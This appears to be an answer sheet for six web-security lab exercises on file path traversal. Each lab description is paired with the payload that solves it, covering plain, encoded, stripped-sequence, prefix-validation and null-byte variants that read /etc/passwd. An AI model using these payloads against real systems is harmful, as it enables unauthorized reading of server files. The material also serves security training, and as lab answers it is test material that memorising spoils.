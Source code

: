 ```
Lab: File path traversal, simple case

APPRENTICE

This lab contains a file path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the /etc/passwd file. 
```

filename=../../../etc/passwd

---

```
Lab: File path traversal, traversal sequences blocked with absolute path bypass

PRACTITIONER

This lab contains a file path traversal vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the /etc/passwd file. 
```

/image?filename=/etc/passwd 

---

```
Lab: File path traversal, traversal sequences stripped non-recursively

PRACTITIONER

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file. 
```

/image?filename=....//....//....//etc//passwd

---

```
Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

PRACTITIONER

This lab contains a file path traversal vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the /etc/passwd file. 
```

/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

---

```
Lab: File path traversal, validation of start of path

PRACTITIONER

This lab contains a file path traversal vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the /etc/passwd file. 
```

/image?filename=/var/www/images/../../../../../etc/passwd 

---

```
Lab: File path traversal, validation of file extension with null byte bypass

PRACTITIONER

This lab contains a file path traversal vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the /etc/passwd file. 
```

/image?filename=../../../../etc/passwd%00.jpg

---


